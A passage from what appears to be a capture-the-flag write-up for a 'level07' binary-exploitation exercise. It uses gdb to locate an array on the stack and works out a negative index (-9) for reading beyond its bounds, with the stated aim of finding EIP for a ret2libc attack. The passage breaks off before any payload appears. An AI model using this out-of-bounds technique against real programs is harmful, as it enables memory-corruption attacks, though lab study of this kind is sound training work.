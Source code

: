 Without the index protection we can read in the stack, like a format string

Let's find the EIP address with this and maybe use it for a ret2libc! To do it, we need to find the index of EIP on the tab

First, find the address of the tab, of the index 0

Put a breakpoint at the start of the function `read_number` and get the argument, it's the tab

    (gdb) b read_number
    Breakpoint 1 at 0x80486dd
    (gdb) r
    Starting program: /home/users/level07/level07 
    ----------------------------------------------------
    Welcome to wil's crappy number storage service!   
    ----------------------------------------------------
    Commands:                                          
        store - store a number into the data storage    
        read  - read a number from the data storage     
        quit  - exit the program                        
    ----------------------------------------------------
    wil has reserved some storage :>                 
    ----------------------------------------------------

    Input command: read

    Breakpoint 1, 0x080486dd in read_number ()
    (gdb) x/x $ebp+0x8
    0xffffd440:	0xffffd464

`0xffffd440` is the address of where is stored the tab address and `0xffffd464` is the address of the tab itself. To get the index of where is stored the address of the tab on the tab we need to calculate the difference between these 2 addresses

    0xffffd440 - 0xffffd464 = -36

The tab is an int tab (`int tab[100`), so the index is `-36 / 4`

    -36 / 4 = -9

The index of the address of the tab is -9. Try it

    The program being debugged has been started already.
    Start it from the beginning? (y or n) y
    Starting program: /home/users/level07/level07 
    ----------------------------------------------------
    Welcome to wil's crappy number storage service!   
    ----------------------------------------------------
    Commands:                                          
        store - store a number into the data storage    
        read  - read a number from the data storage     
        quit  - exit the program                        
    ----------------------------------------------------
    wil has reserved some storage :>                 
    ----------------------------------------------------
